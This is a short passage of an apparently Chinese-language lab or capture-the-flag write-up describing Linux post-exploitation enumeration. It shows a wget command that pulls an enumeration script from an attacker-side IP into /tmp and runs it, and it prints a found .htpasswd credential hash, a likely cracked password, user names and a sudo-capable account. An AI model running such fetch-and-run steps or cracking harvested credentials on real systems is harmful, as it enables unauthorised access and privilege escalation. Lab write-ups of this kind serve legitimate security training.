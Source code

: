 ![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/5.PNG)

## linuEnum.sh
wget http://10.10.14.18/l.sh -P /tmp
chmod加权限并运行

发现口令
```
/etc/.htpasswd
admin:$apr1$7hIqRwgr$.QPU0yknBQRTf3WW9jfFp.

存在的用户
centreon、shelby、sysmonitor

/home/sysmonitor/.sudo_as_admin_successful
说明普通用户sysmonitor用sudo可以得到最高权限
```
password1
## hash类型识别
MD5(APR)
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/6.PNG)
